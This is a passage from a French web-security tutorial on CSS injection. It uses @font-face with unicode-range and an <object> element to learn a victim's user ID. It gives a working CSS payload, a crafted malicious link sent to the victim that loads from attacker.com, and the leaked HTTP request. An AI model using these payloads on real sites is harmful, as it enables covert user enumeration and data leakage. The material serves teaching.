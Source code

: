En analysant le site vulnérable, l'attaquant identifie un endpoint contenant l'identifiant de l'utilisateur actuel : `http://vulnerable.com/users.php?id={id}`. Pour l'attaquant, l'URL est  `http://vulnerable.com/users.php?id=967344`. Afin d'exploiter une seconde vulnérabilité plus sévère, il souhaite connaitre l'identifiant de sa victime.

Pour cela, il va tout d'abord exploiter l'injection CSS et utiliser l'élément HTML `<object></object>`. Le style à appliquer sera le suivant :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Indique quels résolutions d'hôtes de ou ports se terminent en erreur
    src: url(https://attacker.com/?leak=1); 
    
    // Test de la présence du caractère spécifié en unicode
    // L'unicode doit être un caractère présent dans le texte alternatif, ici "E"
    unicode-range: U+0045;
  }
  
  // S'applique sur l'élément <object> que contrôle l'attaquant
  #attacker {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```
{% endcode %}

La première tentative va être l'identifiant `1`. Si ce n'est pas celui de la victime alors l'attaquant recevra une requête en retour. Le lien malicieux à envoyer à la victime pour cette attaque est le suivant :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-scanner-de-ressources.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=1);unicode-range:U%2b0045;}%23attacker{font-family:attack;}&url=https://vulnerable.com/users.php?id=1
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder les caractères "+" et "#" par leur équivalent URL encodée, respectivement "%2b" et %23".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=1 HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}
